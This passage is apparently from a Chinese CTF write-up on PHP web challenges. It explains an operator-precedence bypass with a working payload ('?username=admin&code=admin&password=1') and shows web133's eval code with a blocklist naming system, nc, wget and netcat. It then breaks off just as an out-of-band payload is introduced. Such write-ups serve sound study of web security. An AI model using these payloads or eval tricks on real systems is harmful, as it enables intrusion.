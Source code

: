 用于生成随机数

注意这个判断式
`if($code === mt_rand(1,0x36D) && $password === $flag || $username ==="admin")`

这里三个都是`强等于`，不像`弱等于`一样好绕过，而且前两个条件可以说是不可能同时达成的,这里是利用了比较符的优先级
![在这里插入图片描述](img/21fd3a89121f68dceca89ce0ffc7e93e.png)
所以即使前两个条件不满足，只要第三个条件`username==="admin"`满足即可,同时令code=admin即可输出flag

payload:`?username=admin&code=admin&password=1`

## web133

```
<?php

error_reporting(0);
highlight_file(__FILE__);

if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|netcat/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("6个字母都还不够呀?!");
    }
} 
```

限制执行前6个字符，这题参考[Firebasky师傅的wp](https://blog.csdn.net/qq_46091464/article/details/109095382)，又是新姿势，具体的原理看师傅的博客。

先打开burp，获得一个域名
![在这里插入图片描述](img/fed81ca0dae2f2c520d360fc16af50ef.png)
payload：
